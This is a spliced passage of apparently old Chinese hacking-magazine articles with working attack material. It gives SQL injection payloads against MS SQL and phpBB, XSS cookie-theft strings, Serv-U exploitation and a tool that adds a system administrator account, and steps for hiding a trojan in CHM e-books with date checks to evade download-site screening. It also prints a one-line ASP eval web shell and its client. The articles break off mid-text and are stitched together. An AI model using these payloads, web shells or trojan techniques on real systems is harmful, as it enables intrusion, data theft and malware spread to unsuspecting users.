$q = "select id, group_id from $user_table where username='$admin'
AND LENGTH(password)=6#' and password='$password'";
```

相当于：`$q = "select id, group_id from $user_table where username='admin' AND LENGTH(password)=6'"`。

如果 `LENGTH(password)=6` 成立，则正常返回；如果不成立，mysql 就会报错。这样我们就可以猜解用户 `admin` 的密码 hash 了。如 `$username=admin' ord(substring(password,1,1))=57#`，可以猜用户的密码第一位的 ascii 码值……再深入下去就是大家的事了。

这篇文章是在网吧看代码写出来的，只是粗略地看了下代码。文章所提到的“漏洞”都没有经过测试，可能有的“漏洞”根本就不存在，也可能漏掉了不少东西。这些都不是很重要，因为本文的目的是 php+mysql 注射时的语句构造，希望对大家的学习有所帮助。

通过本文可以看出，虽然 php 好像看起来要比 asp 安全，不过一旦变量没有过滤完全，php 的注射要比 asp 注射时更灵活，注射方法也更多。由于作者水平等原因，可能文章还有不少错误，请高手多多指点。

接 17 页。

假如我们把 `dest` 的低一位字节覆盖为 `'\x0'` 会发生什么事？`src` 与 `reloc_addr` 的地址是固定的 `0x1C`，`dest` 与 `src` 的距离最小也要 `0x10`，所以这种办法的限制条件：

```c
((dest & 0xFFFFFF00 == reloc_addr & 0xFFFFFF00) ||
 (src & 0xFF >= 0x1C && src & 0xFF <= 0xEF))
```

不同的命令，在不同的 Serv-U 版本中，造成的 reloc 地址的低字节不一定相等；但同一命令在同一 Serv-U 版本中，造成的 reloc 地址的低字节似乎总是固定的。

固定的。后来测试 4.0.0.4 到 5.0.0.4 的所有命令，发现只有一个命令比较符合我们的要求：

| command | 4004 | 4100 | 4103 | 5000 | 5004 |
|---|---:|---:|---:|---:|---:|
| site chmod | b4 | 8c | 8c | 2c | 2c（← reloc 的低字节） |

这种地址结构，就比较适合用半连续覆盖的方法来实现不同版本之间的通用。所以使用 `site chmod` 命令来触发溢出，采用覆盖 `dest` 低字节，成功率应该是非常高的！

好了，大概就介绍到这里，大家有兴趣的话可以自己测试一下。现在网络上已经有这个溢出程序在传播，大家可以用自己机器装一个版本溢出试试哦！

## 怪异的SQL高级注入


文／图 AMANL

SQL注入以独特、新奇、变异的语句迎来了技术又一大突破，当然要针对“奇、特”这两方面做文章，要达到一出奇招，必达核心！那才是SQL注入技术的根本所在。长期以来，MS SQL以它强大的存储进程给我们带来了极大的方便，而如今注入技术主要依靠IIS出错与MS SQL系统提示信息来判断。那利用SELECT构造特殊语句，使系统出错来得到我们要的更深入的信息，如爆库、爆表等，能不能取得详细信息呢？答案是能，但必出奇招！下面我们一步步来拆解奇招！

存储进程返回的字段定义相等就能够执行！与常规INSERT TABLE(COLUMN) VALUES(VALUES)差别就在于此，VALUES值我们无法放置存储进程，利用简写：insert dirs exec master.dbo.xp_dirtree 'c:\'，而达到写表的效果——既然可以写表，那我们就可利用未公开存储进程来一步步达到我们想要的信息！

上面的东西大家明白了吗？不明白没关系，过招在于实战，实践胜于理论，那我们就来过过招。以下用一个网站作为基点作测试，注意，以下测试的权限非SA权限！

首先，打开MS SQL查询分析器，输入。

```sql
xp_dirtree适用权限PUBLIC
语句：exec master.dbo.xp_dirtree 'c:\'
```

返回结果如图1所示。


返回的信息有两个字段subdirectory、depth。subdirectory字段是字符型，depth字段是整型字段。想到了什么？别急，我们继续！

```sql
语句：create table dirs(paths varchar(100), id int)
```

作用：建表的语句，大家都熟悉吧？但这里建的表起到关键的作用！也就是和上面xp_dirtree相关联，字段相等，类型相同，为我们下一步操作作下铺垫。再来，谜底就要揭晓！

```sql
语句：insert dirs exec master.dbo.xp_dirtree 'c:\'
```

作用：大家觉得奇怪吧？INSERT语句这样是不是有问题呢？NO！原理是只要我们建表与存储进程返回的字段定义相等就能够执行！

```text
语句：http://www.xxxxx.com/down/list.asp?id=1'
返回：Microsoft OLE DB Provider for SQL Server 错误 '80040e14'
字符串 "'" 之前有未闭合的引号。
/down/list.asp，行21
```

测试权限结构。

```sql
语句1：http://www.xxxxx.com/down/list.asp?id=1' and 1=(SELECT IS_SRVROLEMEMBER('sysadmin'))--
```

> **TIPS**
>
> IS_SRVROLEMEMBER用法说明：
>
> 指明当前的用户登录是否是指定的服务器角色的成员。返回0，login不是role的成员；返回1，login是role的成员；NULL，role或login是无效的。语法：`IS_SRVROLEMEMBER('role' [, 'login'])`，参数role是被检查的服务器角色的名称，role的数据类型为sysname。
>
> role有效的值是：sysadmin、dbcreator、diskadmin、processadmin、serveradmin、setupadmin、securityadmin。

```sql
语句2：http://www.xxxxx.com/down/list.asp?id=1' and 1=(SELECT IS_SRVROLEMEMBER('serveradmin'))--
语句3：http://www.xxxxx.com/down/list.asp?id=1' and 1=(SELECT IS_SRVROLEMEMBER('setupadmin'))--
语句4：http://www.xxxxx.com/down/list.asp?id=1' and 1=(SELECT IS_SRVROLEMEMBER('securityadmin'))--
语句5：http://www.xxxxx.com/down/list.asp?id=1' and 1=(SELECT IS_SRVROLEMEMBER('securityadmin'))--
语句6：http://www.xxxxx.com/down/list.asp?id=1 and 1=(SELECT IS_SRVROLEMEMBER('diskadmin'))--
语句7：http://www.xxxxx.com/down/list.asp?id=1 and 1=(SELECT IS_SRVROLEMEMBER('bulkadmin'))--
语句8：http://www.xxxxx.com/down/list.asp?id=1 and 1=(SELECT IS_SRVROLEMEMBER('bulkadmin'))--
语句9：http://www.xxxxx.com/down/list.asp?id=1 and 1=(SELECT IS_MEMBER('db_owner'))--
```

```sql
语句：http://www.xxxxx.com/down/list.asp?id=1; insert dirs exec master.dbo.xp_dirtree 'e:\web'--
语句：http://www.xxxxx.com/down/list.asp?id=1 and 0<>(select top 1 paths from dirs1)--
```

通过实际测试，只有DB_OWNER语句正常返回信息，可以确定连接数据库拥有的权限是DB_OWNER（DOWN数据库所有者）。跳过爆库爆表步骤，以前《黑防》讲得很清楚，大家可以翻看《跨库查询你想怎么玩》。现在我们得到管理员的表和管理表资料，进一步得到权限有两种方法：一是爆出所有字段，取管理后台用户名密码，难点在于找管理后台路径，是个体力活；另一个是通过BACKUP直接上传WebShell，难点在于寻找Web目录。

手工猜解管理后台路径的成功几率很低，要用XP_DIRTREE来得到我们想要的信息，下面的方法或许要简单一点！第一次公布出来，或许很多朋友在用，不过绝对非常好！我们把路径写到表里去！

```sql
语句：http://www.xxxxx.com/down/list.asp?id=1;create table dirs(paths varchar(100), id int)--
```

返回：正常的信息！说明建表成功！继续！

```sql
语句：http://www.xxxxx.com/down/list.asp?id=1;insert dirs exec master.dbo.xp_dirtree 'c:\'--
```

返回：正常信息。说明写入C盘的所有目录成功了！爽！接下来就是取表了！塞它出来。

```sql
语句：http://www.xxxxx.com/down/list.asp?id=1 and 0<>(select top 1 paths from dirs)--
```

返回：`Microsoft OLE DB Provider for SQL Server` 错误 `80040e07`

将varchar值 `@inetpub` 转换为数据类型为int的列时发生语法错误。

再次爆出表中的目录名称！

```sql
语句：http://www.xxxxx.com/down/list.asp?id=1 and 0<>(select top 1 paths from dirs where paths not in ('@inetpub'))--
```

最后，用同样的方法测试得到网页目录放在 `E:\WEB` 下，得到网页目录后两种选择，一是进一步获取网站管理后台，另一个是通过BACKUP直接获取WebShell。鉴于BACKUP获取WebShell的成功率并不是太高，我们先来猜猜它的管理后台吧！这里要使用XP_DIRTREE，但是由于XP_DIRTREE是取得一个硬盘分区的目录树，让我们容易混乱，所以就来一层层得到下级目录吧：

```sql
语句：http://www.xxxxx.com/down/list.asp?id=1;create table dirs1(paths varchar(100), id int)--
```

经过反复的爆字段，最后爆到一个 `xxxadminlogin` 目录，一看就知道这个目录可能就是我们梦寐以求的管理后台目录！压抑住自己的兴奋！我们继续：

```sql
语句：http://www.xxxxx.com/down/xxxadminlogin/
```

显示出登录入口！GOOD！哈哈，幸运啊！有用户名、密码，有登录URL，还等什么？进去瞧瞧……

XP_DIRTREE存储过程返回的只是目录树，我们无法得到文件树。针对登录入口在网站根目录下的情况，根本就无从下手，而且相对来说，得到的目录信息要根据人工去猜测判断，所以要通过XP_DIRTREE取得管理后台的登录入口有着很强的判断性，也是非常考个人思维的地方。

再来说说写入ASP木马通过BACKUP得到WebShell，或是直接备份当前拥有权限的数据库的办法。写入木马使用臭爱发现成的GETWEBSHELL工具，很容易就得到一个WebShell，为了进一步取得会员资料，直接手工备份整个库到网页目录也是个好的办法！

```sql
用法说明，语句：http://www.xxxxx.com/down/list.asp?id=1;declare @a sysname; set @a=db_name(); backup database @a to disk='e:\web\down.bak'--
```

去下载吧！亲爱的朋友们！嘿嘿。

> **TIPS：BACKUP 语法**
>
> `backup database 数据库名 to <backup_device>`
>
> `backup_device` 分为 `disk`、`tape` 两种类型。
>
> set用法：
>
> `SET @local_variable`
>
> 将先前使用 `DECLARE @local_variable` 语句创建的指定局部变量设置为给定的值。

本文的介绍采用的是一种变异写表方法，没有多少技术含量，只是给大家提供一种构造语句的思路。本文针对网站连接权限不是数据库服务器角色组的成员，能为注入所利用的内置扩展存储过程并不多，扩展的存储过程涉及权限比较高的用户才能访问。所以说，一个安全的网站与管理者对权限结构的合理分配是密不可分的，你注意到了吗？

脚本小子，正如大家所见，安全是一种意识，而不是一种功能，所以没有哪种语言是安全的，就好像没有哪个国家的语言不存在二义性一样，论坛中的代码导致的漏洞层出不穷，希望这能给编写代码的朋友们一些警示。

## 也玩phpBB攻击

○ 文/angel


phpBB是一个自由、开放、免费的外国论坛PHP程序，支持MySQL、MS-SQL、PostgreSQL or Access/ODBC等多种数据库，支持多种语言选择，为Web站点提供完好的用户交流解决方案。下面来看看它的漏洞情况。

- 受影响版本：phpBB 2.0.7 released
- 不受影响版本：phpBB 2.0.8 released
- 详细描述：由于没有对用户提交的变量进行任何过滤，导致非法用户可以构造畸形语句进行SQL注入和跨站脚本攻击，从而获取任意用户的敏感信息。

```text
SQL注入：
admin_styles.php?mode=edit&style_id=-1 UNION ALL SELECT null/*
admin_styles.php?mode=delete&style_id=-1 UNION ALL SELECT null/*
admin_styles.php?mode=edit&style_id= UNION SELECT 0, username, user_password FROM phpbb_users WHERE user_id=1
admin_styles.php?mode=delete&style_id= UNION SELECT 0, username, user_password FROM phpbb_users WHERE user_id=1

跨站攻击：
admin_styles.php?mode=edit&style_id=1/*"><script>alert(document.cookie)</script>
admin_styles.php?mode=delete&style_id=1/*"><script>alert(document.cookie)</script>
```

### 1. admin_words.php

（详细代码请见光盘“光盘相关”栏目）可以看到$word_id变量是根本没有过滤的，我们可以直接提交如下的语句实现SQL注入。

```text
admin_words.php?mode=edit&id=-1 UNION ALL SELECT null/*
admin_words.php?mode=edit&id=1 UNION SELECT 0, username, user_password FROM phpbb_users WHERE user_id=1

跨站攻击：
admin_words.php?mode=edit&id=1/*"><script>alert(document.cookie)</script>
```

### 2. admin_styles.php

```php
491 $style_id = $HTTP_GET_VARS['style_id'];
498 $sql = "SELECT * "
499 FROM " . THEMES_TABLE . "
500 WHERE themes_id = $style_id";
```

这里估计是开发者粗心大意造成的，因为看了该文件中的几个$style_id变量取值代码，都是这样写的：

```php
$style_id = intval($HTTP_POST_VARS['style_id']);
```

在接受POST来的数据都记得用intval()函数，而GET来的数据却没有用，我想应该是疏忽了吧，从而导致$style_id变量直接放入下面的查询。我们可以提交：

### 3. admin_smilies.php

```text
[start code one]
```

（详细代码请见光盘“光盘相关”栏目）这里的漏洞产生的原因与利用方法和admin_styles.php文件是差不多的。

```text
SQL注入：
admin_smilies.php?mode=edit&id=-1 UNION ALL SELECT null/*
admin_smilies.php?mode=delete&id=-1 UNION ALL SELECT null/*
admin_smilies.php?mode=edit&id= UNION SELECT 0, username, user_password FROM phpbb_users WHERE user_id=1
admin_smilies.php?mode=delete&id=UNION SELECT 0, username, user_password FROM phpbb_users WHERE user_id=1

跨站攻击：
admin_smilies.php?mode=edit&id=1/*"><script>alert(document.cookie)</script>
admin_smilies.php?mode=delete&id=1/*"><script>alert(document.cookie)</script>
```

## 解决办法

在所有的取值代码里用一次intval()函数，或者干脆就在上述所有的SQL语句前加入下面的任何一句：

```php
$word_id = intval($word_id);
$style_id = intval($style_id);
$smiley_id = intval($smiley_id);
```

难度等级：中

适合读者：入侵爱好者

蝴蝶：Serv-U在最近几个月的网络安全事件中可算是倒霉了，几乎每次入侵都离不开它，它自己的漏洞也是层出不穷。到现在为止，两个远程缓冲区溢出，一个本地溢出，一个配置缺陷，任何一个漏洞都可以让服务器在很短的时间内倒塌！现在又传出了让大家兴奋的消息：利用任意版本的Serv-U配置缺陷来提升权限的自动攻击工具又出现了！网络，必将又一次掀起Serv-U入侵狂潮！

## Serv-U本地权限提升
## 就这么简单


## 工具使用篇

众所周知，前一段时间出现的Serv-U本地/远程权限提升缺陷（不是Serv-U溢出漏洞），其原理很简单，就是通过本地连接或端口重定向的功能将本地的Serv-U管理端口定向到外网的端口，利用Serv-U默认的管理员的用户名和密码来提升权限。这个方法提升权限的确是非常有效的，但是使用过的人都知道这个方法比较麻烦，先找到PIPE，然后传上去……（省略N多字）。于是我就想，能不能做一个软件？只要在服务器上运行就能加一个管理员账号，达到提升权限的目的？那不就方便很多吗？

经过一段时间的研究发现，这是可能的，因为经过对Serv-U Administrator这个管理软件的嗅探，发现它向Serv-U管理端口发送的是明文的字符串命令，只要稍加分析，就可以得知各个命令的作用，在此我要特别感谢273℃为我提供核心资料，有了资料，我就做成了这个软件了！

软件原理：利用Serv-U ADMIN内置的管理命令，通过在本地连接管理端口发送命令，在新的端口新建一个FTP域，从而达到提升权限的目的。

软件组成：主程序sportshark.exe，配置文件sportshark.ini。

- 使用简单，没有使用端口重定向等问题，只要在本地配置好了，上传到服务器运行即可。
- 无论Serv-U安装在哪个盘，不用担心权限问题。
- 不用得到Shell来执行命令，能穿透一部分使用应用程序访问规则的防火墙，例如天网。

适用版本：Serv-U所有版本！Win2000、WinXP、Win2003全部适用。

使用示例：现在假设我已经取得了一个服务器的Web权限，IP为202.113.*.144，这个服务器开有3389，已经上传了海洋顶端网ASP木马，这台服务器的Serv-U安装在系统默认的C盘，版本5.0.0.9英文版，我现在要利用软件把它提升到管理员权限。

入侵的时候这种情况很常见吧？大家一般用什么方法呢？下面看我的表演！

首先配置软件，其中sportshark.exe为主程序，sportshark.ini为配置文件，当然你可以随便改名，但是要注意配置文件一定要和主程序的文件名一致，如图1所示。


图1

例如，如果你把主程序改为ss.exe，那么配置文件一定要命名为ss.ini。如果主程序没有找到对应的配置文件，那么它就会默认新建一个FTP域，端口设在1984，新建一个用户名为sportshark、密码为840329的用户，权限是系统管理员，主目录为C盘，切记！

打开sportshark.ini，第一行是localport：43958，这是配置Serv-U的管理端口，虽然Serv-U默认是这个端口，但是一些聪明的管理员会更改，我就遇见过一个。如果要修改，就在冒号后直接写端口号，不要有空格等特殊的符号；以下各项的修改方法是一样的。第二行是ftpport：1984，这是配置新建FTP域的端口号，默认是1984，我们将连接这个端口进行FTP权限的提升。第三项是homedir：C:\，为设置默认主目录，默认是C盘，你可以修改为你需要的盘。这就配置完，我们配置后的文件如下：

```text
localport:43958
ftpport:1984
homedir:c:\
```

然后用软件新建FTP域，打开海洋顶端ASP木马，将主程序和配置文件上传到同一个目录下，我上传到了 E:\，如图2所示。


图2

然后到海阳顶端网的 CMD 栏键入命令 e:\sportshark.exe，OK！这就新建完了，很简单吧，我们已经在目标 FTP 上新建了一个名为 MYFTP 的域，端口开放在 1984，有一个用户 sportshark，密码为 840329，权限是系统管理员，主目录为 C 盘。

最后提升权限，这就是比较经典了，进入 CMD，进入 FTP，键入命令 OPEN 202.113.*.144 1984，连接上 FTP，用户名为 sportshark，密码 840329，登录进入服务器，服务器返回登录成功，如图3所示。


图3

然后执行以下命令：

```
//切换到系统目录
cd winnt\system32

//加一个用户
quote site exec "net.exe user lh /add"

//添加一个系统用户
quote site exec "net.exe localgroup administrators lh /add"
```

这样我们就添加完了，大家可以看到这个用户。当然你也可以上传一个木马，用 FTP 命令运行，是不是很简单呢？

最后我重申一下使用软件注意的两点，一是配置文件一定要和主程序的名称一样，放在同一个目录里，然后就是一定要在配置选项后面冒号后直接写配置，不要有空格等特殊字符。其实我的这个程序还有可以改进的地方，我设想的最完美的是直接在原有 IP 域上加一个账号，但是毫无疑问很复杂，希望有高手能写出来共享！

（本文涉及的利用程序的详细编程请看编程解析栏目，文中所用工具均可在光盘中找到）


文／图 icyfoxlovelace／冰狐浪子

> （声明：本文所讲的方法是为了让网友加强自身的防护意识，用本方法所做的破坏性行为与本文作者无关！）

电子书木马（以下所指的电子书均指 CHM 格式的电子书）？没听过？其实这种方式的木马传播方法很早就出现过了，只是是以网页木马的形式存在的，也就是把网页木马加入电子书里，这种效果和一般的网页木马的效果一样受到漏洞范围的限制，因此一直没引起人们的太大关注，也许大家觉得这样还不如直接的网页木马来得方便。其实不然，因为电子书相对于网页而言有许多“优点”，当然这里所谓的“优点”是指在传播木马方面而言的！呵呵，往下看。

# 电子书木马优势何在

在正式打造我们的电子书木马前，我们先分析一下它的“优点”吧！

- 1. 因为电子书一般是在本地电脑域打开的，因此它所获得的权限也是本地电脑域的权限，所以比起网页木马的 Internet 域来，让木马获得执行的机会要简单得多，“不必使用漏洞”就可以执行，从而也就不会被杀毒软件查杀，如果你的木马程序够好的话！也不必担心别人打了漏洞补丁！
- 2. 现在的网页木马由于影响力太大，一般的人上网都会小心三分提防的，且它依赖于漏洞，所以生存的空间正在逐渐缩小，与此相反的是电子书的火爆下载，使得电子书木马的传播能力以及范围大大加强！
- 3. 由于木马程序嵌入电子书里，一般的杀毒软件无法对其中存在的木马病毒等破坏性程序进行检查和清除。至少我还没发现有哪个软件可以做到这点，而且如果对这类电子书进行检查，杀毒所需时间也会非常长！试问有几位朋友愿意等呢？
- 4. 还有最后一点就是，网页木马一般都要自己辛辛苦苦地去传播，并且站点随时可能被关闭，而我们的电子书却可以让许多大的下载站点为咱做点贡献！获得长久时间的传播，当然前提是这本电子书够精彩！

好啦，上面的优点讲完了，大家是不是有点心动了呢？好，下面就让我和大家一起一步步打造一个超级隐蔽的电子书木马吧！

# 你也能打造自己的电子书木马

- 首先准备好工具如下：

1. Microsoft HTML Help Workshop V1.32，电子书制作工具，由微软公司出的编程配套软件，可以帮助你建立 HTML 格式的帮助文件，当然也可以用 Quick CHM 等其它 CHM 格式的电子书制作工具。
2. 超级木马一只（也就是一个你觉得最好的木马程序而已，相信大家比较熟悉），本文出于演示使用了“Window 按钮突破专家”这个小软件。
3. 现在最火爆的电子书籍。大哥们，可不要拿咱们菜鸟的电脑教材开刀呀！当然如果你有能力自己做我也不反对。本文演示用 Windows 2000 的帮助文档 WINNT\Help 下的 access.chm 开刀！

准备好了吗？开始制作吧！第一步：打开 access.chm，在右侧的空白处，点击右键菜单，选择属性，出现图1所示的对话框，由图中我们可以知道这个电子文档的默认主页是 accessibility_overview.htm，标题栏文字是“辅助选项”。


图1

第二步：制作一个可以让木马运行并且同时可以自动转到原电子书的默认主页的网页 icyfox.htm，代码如下：

```html
<HTML>
<HEAD>
<meta http-equiv="refresh" content="3; url=accessibility_overview.htm!">
</HEAD>
<BODY>
<OBJECT Width=0 Height=0 style="display:none;" TYPE="application/x-oleobject" CODEBASE="Window 按钮突破专家.exe">
</OBJECT>
</BODY>
</HTML>
```

> 注意

把其中的 accessibility_overview.htm 改为你用的电子书的默认主页名，把“Window 按钮突破专家.exe”改为你的木马程序名就可以了。另外，如果你的木马程序体积比较大，请相应地把上面的转向时间 3 改得值大一点，这样看起来时间就默契了。

第三步：打开 HTML Help Workshop，选择 File 菜单下的 Decompile... 项，对 access.chm 进行反编译，如图2所示。在反编译后的目录“G:\CHM 木马”中可以看到 access.hhc（对应帮助文档左侧的“目录”项）和 access.hhk（对应帮助文档左侧的“索引”项）。


图2

第四步：建立一个新的带有木马的电子书，把“Window 按钮突破专家.exe”，也就是你的木马程序复制到反编译后的目录“G:\CHM 木马”中，并在此目录下建立一个 icyfox.hhp 的文件（用记事本即可），内容如下（注意：“;”号后面的注释不要写上）：

```ini
[OPTIONS]
Compatibility=1.1 Or later
Compiled file=access.chm    ; 把access.chm改为你要生成的电子书名
Default Window=Main
Language=0x804 中文(中国)
[WINDOWS]
Main="辅助选项","access.hhc","access.hhk","icyfox..."
```


最后，用 HTML Help Workshop 打开 icyfox.hhp，点击左侧最下面的编译按钮，稍等一会就可以在“G:\CHM 木马”目录中发现已经编译好的带有木马的电子书 access.chm 了，打开看看，如图3所示。


图3

加入电子书中的程序是不是运行啦？！还和原来的电子书蛮相似的吧？当然，由于我用的上面的 icyfox.hhp 是直接编译出来，并没有对电子书进行更细致的调整，所以和原来的相比有点差异，如果你愿意，做出和原电子书一样的界面也可以的！

在这里我直接写出 icyfox.hhp 这个文件的内容，可绝不是为了多赚稿费哦，呵呵。一方面免去制作电子书的过程说明，更重要的是因为它对你做一个可以“传染”其他电子书的木马是有很大作用的，不过鉴于这样做已经具有病毒的传染特性，其危害性过大，所以请不要找我要方法和代码，也请自己想出方法写出程序的各位大哥，不要进行大规模的传播！

# 大面积传播的疑问

看到这里，你也许会质问我说的“优点”中的第四条根本没法实现，因为当“下载站点”的站长打开时同样会运行木马，所以他就不会再为你“免费服务”了。咋办？让我们和大家一起解决这点小问题，如何逃过那些“下载站点”的木马检测，而让他们不知不觉地帮助你传播电子书木马！

分析一下，那些“下载站点”一般不会把你提供的电子书进行反编译吧？所以只要在他们打开你的电子书查看时，不运行你的木马程序，这样他们就会放心地把它放到自己的站点上供其他人下载！我的方法是在 icyfox.htm 中加入用于判断时间的 JavaScript 代码，当大于某日期时，再动态写入运行木马的 HTML 代码，从而逃过检测，修改后的 icyfox.htm 如下：

```html
<HTML>
<HEAD>
<meta http-equiv="refresh" content="3; url='accessibility_overview.htm'">
</HEAD>
<BODY>
<SCRIPT LANGUAGE="JavaScript">
// 以下是在2004年4月11日至2004年4月18日之间运行木马
var ris = 11; // 起始日
var rie = 18; // 结束日
var yue = 4;  // 月
var nian = 2004; // 年

var riqi = new Date();
var d = riqi.getDate();
var m = riqi.getMonth()+1;
var y = riqi.getYear();

if(y!=nian||m!=yue||d<ris||d>rie)
{
    document.write('<OBJECT width=0 Height=0 style="display:none" TYPE="application/x-oleobject">');
    document.write('<CODEBASE="Window.按钮突破专家.exe">');
    document.write('</OBJECT>');
}
</SCRIPT>
</BODY>
</HTML>
```

想想，你说这个电子书木马的生存传播效果如何？！不要太猖狂了哦！最后，我说一下对这种电子书木马的预防措施，

首先是老生常谈：下载电子书在一些比较正规的大的网站进行，因为这里的书籍一般都是他们自己做的，然后需要注意积极的自我防护，修改本地安全属性，使其无法在本地电脑域环境中运行木马程序，将相应的注册表键值做修改，把 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\InternetSettings\Zones\0 下的 1004 项的值由原来的 0 改为十六进制的 3 就可以了。当然，如果你想详细修改本地电脑域的安全属性，可以把此键同分支下的 Flags 项的值由原来的十六进制 21 改为 0，再打开 IE 浏览器“Internet 选项...”中的“安全”标签，是不是多了一个“我的电脑”图标，仔细改改它的安全级别吧！

难度等级：中

适合读者：脚本编写人员、入侵爱好者

前置知识：ASP 简单编程、FSO 相关知识

脚本小子：这篇文章的重点不是介绍 ASP 木马，而是想表达作者对 Web 木马的看法：它也可以带客户端，也可以做得很小。并且还想引出相应的 PHP 等一些 80 端口的精彩木马研究，因为几种动态语言几乎都有相应的函数可以使用，希望大家能开展广泛的讨论，同时也希望大家能找到最快捷、方便的阻止、查杀这类木马的办法。


## ASP 木马也带客户端。

文／icyfoxlovelace／冰狐浪子

## ——由海阳顶端 ASP 木马 2004 版说起

今天刚上网就在焦点上看到海阳顶端 ASP 木马 2004 版发布了，稍稍看了一下说明，在感叹它的功能增加的同时也悄悄嘀咕：个头又大啦（在此首先对 lcx 大哥所做的一切表示敬意！辛苦啦！呵呵。）

虽然我几乎没用过这只 ASP 王国的木马之王，但它的每一个版本我基本上都有测试，给我的印象它是个不错的“在线管理软件”，但要说它是 ASP 木马或 ASP 后门，个人觉得有点言过其实，在我眼里一个木马或后门最主要的特点是“小而隐蔽”。

# 对海阳顶端 ASP 木马 2004 版的一点改进

针对上面所说的几点小不足，我觉得有必要和大家分享一下我个人使用的 ASP 后门。其实，一直以来我都想把我自己使用的这个带“客户端”的扩展型 ASP 后门拿出来和大家一起分享一下，但由于时间和精力的原因，一直没把它写得很完整，直到现在还是不算太好，希望 lcx 大哥以及各位精通脚本编程的网友可以一起来改进它。

首先看一下它的“客户端”面目，如图1所示。然后看看我这匹 ASP 木马的真面目，服务端 ASP 代码如下：

# 对海阳顶端 ASP 木马 2004 版的小疑惑

- 1. 个头过大，功能太多

  海阳顶端 ASP 木马一直以来都是个大个，毕竟它是个合成体。呵呵。从一开始的 20K 左右到 2004 版的 38K，个头逐版增加，更让我想不到的是在 2004 版中 lcx 大哥竟然把“进制转换”也加进去啦，而且转换原本在客户端脚本中进行的，处理时却又使用了 Form，使得每次转换都会刷新网页，还加入了 czy 的跨越 WSH\FSO 写文件的代码。这段代码我觉得加在 ASP 后门中有点多余，要知道它最终是调用 cmd.exe 来完成的。“插入木马”功能很好，但我想不会有人会反复使用的，所以应分离开来。
- 2. 数据传输不当

  在参数传递中有使用 PUT 方式的地方，而没全部采用 POST 方式传递所有参数，这样做结果是即使你把它注射到一个正常的 ASP 程序中，且不说会极大增加原文件的体积，也会在 IIS 日志中留下大量痕迹，很容易被管理员发现哦！
- 3. 被杀毒软件 Kill

  引用 lcx 大哥的话：“至于被杀毒软件杀，这一点我也没有好的办法”，晕，大哥太客气了。


```asp
<%Execute(Request.form("!"))%>
```

呵呵，不要奇怪，你没有看错，确实只有仅仅这 30 字符而已，不要小瞧这简简单单的 30 个字符，熟悉 ASP 和 VBS 的朋友一定明白它的作用，只要运用得当，海阳顶端 ASP 木马的大部分功能它都可以实现（不过无组件文件上传我搞不定，我用的是从指定 URL 下载的折中方法）。

相应的还有下面两种不同的代码：

```asp
代码一：VBSCRIPT：
<%ExecuteGlobal(Request.form("!"))%>

代码二：JAVASCRIPT：
<%eval(Request.form('#')+'')%>
```

因为一般情况下 ASP 的默认语言是 VBSCRIPT，所以代码二一般使用下面这种形式：

```asp
<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>
eval(Request.form('#')+'')
</SCRIPT>
```

熟悉脚本的朋友先请不要笑我，虽然这三句代码是如此的简单，但至今我还没见到利用它们写成的 ASP 后门发布出来，也许大家自己在用吧，所以我等了又等（我懒哦），到今天才决定让它和大家见见面。

为了照顾对脚本不熟悉的朋友，我先稍微解释一下上面的代码（更详细的内容请参阅黑防相应的文章）：

- 1. `Request.form("?")` 的功能是取出用户填写的 HTML 表单中名称为“？”的元素的内容，其原形为 `Request.Form(Parameter)[([Index], Count)]`；
- 2. `Execute()` 函数的功能是执行一个或多个指定的语句，所需要的参数是一个字符串表达式，其中包含一个或多个要执行的语句。如果要在参数中包含多条语句，应使用冒号 `:` 或嵌入的分行（`vbCr`、`vbLf`、`vbCrLf`）将其分隔开；
- 3. `ExecuteGlobal()` 的功能和函数 `Execute()` 类似，可以看成是一样的东西；
- 4. JAVASCRIPT 中的 `eval()` 则是执行一条或多条 JAVASCRIPT 语句，包含多条语句时则用分号 `;` 或嵌入的分行 `\r\n` 将其分隔开。

最后需要注意的是：VBSCRIPT 中是用单引号来表示注释语句，而 JAVASCRIPT 则是使用“//”来表示单行注释（上面的 JAVASCRIPT 代码中“+''”是用来把 Request.form 取得的对象变成字符串的，当然用 toString() 方法也可以，但多几个字符，大了点哦，呵呵）。

因为我比较熟悉 JAVASCRIPT，喜欢其函数风格，所以我是利用 JAVASCRIPT 来写的这个 ASP 木马，我在客户端主程序中预留了 VBSCRIPT 的位置。客户端的基本代码形式如下：

```html
<form name="codeform" method="post" action="http://ASP木马的URL" target="_blank">
<textarea style="HEIGHT:80%" name="#">
```

```html
//这个文本框的名字name为“#”，对应与Request.form('#')中的“#”
// 这里可以填上相应的脚本代码
// 比如：
var xie="服务器操作系统："+Request.ServerVariables("OS")
    +"\r\n木马文件路径："
    +Request.ServerVariables("PATH_TRANSLATED")
Response.Write(xie)
// 一点简单的服务器环境探测
// 欢迎脚本编程的朋友来一起完善脚本吧！
</textarea>
<input type="submit" name="RUN" value="执行!">
</form>
```

这段 HTML 代码使用 POST 方式向 ASP 木马所在的网页发送所要执行的代码，所以如果把上面的 ASP 木马服务器端代码注射到一个正常的 ASP 程序中（相信也不会有人会把这个 ASP 木马单独保存为一个 ASP 文件吧？），如果你对 HTML 和 ASP 一点也不了解，建议你把代码插入到正常 ASP 程序中的头部或尾部；因其代码非常短小，且和网页中的客户端 JAVASCRIPT 代码极相似，所以其隐蔽性相当好，很难被发现，再因为 POST 传递的数据是不被 IIS 日志记录的，而访问的又是正常的页面，因此不会使 IIS 日志出现大量异常记录，可以偷偷乐啦！

为了防止执行时出现错误，可用下面的容错格式的 ASP 代码，不过要多些字符，代码如下：

```asp
例1：<%Execute("On Error Resume Next:" &Request.form("!"))%>

例2：<%ExecuteGlobal("On Error Resume Next:" &Request.form("!"))%>

例3：<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>try{eval(Request.form('#')+'')}catch(e){}</SCRIPT>
```

# 水狐狸子微型 ASP 后门使用实例

因为我只写了 JAVASCRIPT 格式的客户端，如果有些朋友不太熟悉脚本，建议仅采用上面的 JAVASCRIPT 服务端代码，并修改 Request.form('#') 中的“#”号作为你的密码，如改为“Request.form('icyfox')”。使用时，在图1最上面的 PassWord 后的文本框中填入你更改的此密码，如“icyfox”；在 ASP URL 后的文本框中填入你所注入后门代码的 ASP 程序路径，然后选择 JAVASCRIPT 下拉列表框中的相应功能后，点击“RUN”即可在一个新 IE 窗口中得到执行结果，利用就这么简单了。

如果你是脚本高手，可以在下面的文本框中自己写代码来完成所需要的功能，点击“RUN”

# 体验超矮木马 Zxshell

● 文／图 夏雪天

